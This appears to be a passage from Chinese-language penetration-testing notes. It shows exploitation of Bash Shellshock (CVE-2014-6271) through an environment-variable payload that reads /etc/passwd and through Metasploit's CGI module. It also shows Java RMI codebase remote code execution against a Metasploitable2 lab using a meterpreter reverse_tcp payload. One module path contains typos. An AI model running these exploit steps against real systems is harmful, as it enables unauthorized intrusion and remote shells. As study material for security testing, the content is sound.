 默认使用 reverse_tcp

## Bash Shellshock
CVE-2014-6271（破壳）
bash 4.3

**漏洞原理**

`(){` 开头的环境变量，导致代码执行


**例子**

```
$ export shellexec='(){cat /etc/passwd;}; echo; /usr/bin/id'
$ bash  # 继承环境变量，并执行 /usr/bin/id
$ shellexec # 当函数执行
```

一般 cgi 程序，执行时注入环境变量，容易容易被利用


**msf 利用**

```
msf6 > search Shellshock
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set payload
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set rport 80
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /victim.cgi
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > check
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit
```


## Java RMI codebase 远程代码执行漏洞

RMI 客户端 通过 `java.rmi.server.codebase` 让服务端远程加载对象



```
$ docker pull tleemcjr/metasploitable2
$ docker run  -it --rm \
-p 1099:1099 \
tleemcjr/metasploitable2:latest
```

**msf**

```
> use auxiliary/scanner/misc/java_rmi_server
> run
> use expliit/multi/mis/java_rmi_server
> set payload java/meterpreter/reverse_tcp
> set RHOSTS
> set LHOST
> exploit
```
